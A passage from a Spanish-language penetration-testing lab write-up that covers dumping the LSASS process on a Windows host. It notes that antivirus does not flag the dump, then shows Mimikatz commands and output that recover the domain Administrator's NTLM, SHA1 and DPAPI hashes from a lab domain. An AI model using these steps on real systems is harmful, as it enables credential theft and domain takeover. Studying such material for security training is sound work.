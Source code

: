 <figure><img src="../../.gitbook/assets/image (90).png" alt=""><figcaption></figcaption></figure>

Y le daremos `Abrir ubicación del archivo`, por lo que veremos lo siguiente:

<figure><img src="../../.gitbook/assets/image (91).png" alt=""><figcaption></figcaption></figure>

Y esto no salta `Windows Defender` ni ningun antivirus por alguna razon.

Ahora lo que vamos hacer es pasarnos este archivo a nuestra maquina `kali`.

Pero si nos volvemos a `Windows` lo podremos hacer en `Windows` con `Mimikatz`:

Estando en `Mimikatz`:

```powershell
sekurlsa::minidump C:\Users\empleado1\Desktop\lsass.DMP
```

Info:

```
Switch to MINIDUMP : 'C:\Users\empleado1\Desktop\lsass.DMP'
```

Ahora lo que haremos sera volcar el `lsass` del archivo este que le hemos especificado antes:

```powershell
sekurlsa::logonPasswords
```

Info:

```
Opening : 'C:\Users\empleado1\Desktop\lsass.DMP' file for minidump...

Authentication Id : 0 ; 3253663 (00000000:0031a59f)
Session           : Interactive from 0
User Name         : Administrator
Domain            : CORP
Logon Server      : DC01
Logon Time        : 19/01/2025 9:52:13
SID               : S-1-5-21-3352250647-938130414-2449934813-500
        msv :
         [00000003] Primary
         * Username : Administrator
         * Domain   : CORP
         * NTLM     : a87f3a337d73085c45f9416be5787d86
         * SHA1     : 34957e9ba3455a4a99d722b48693ac1123ba5dba
         * DPAPI    : b937fc9669fa922df0050d0d2f6d5de4
        tspkg :
        wdigest :
         * Username : Administrator
         * Domain   : CORP
         * Password : (null)
        kerberos :
         * Username : Administrator
         * Domain   : CORP.LOCAL
         * Password : (null)
        ssp :
        credman :
```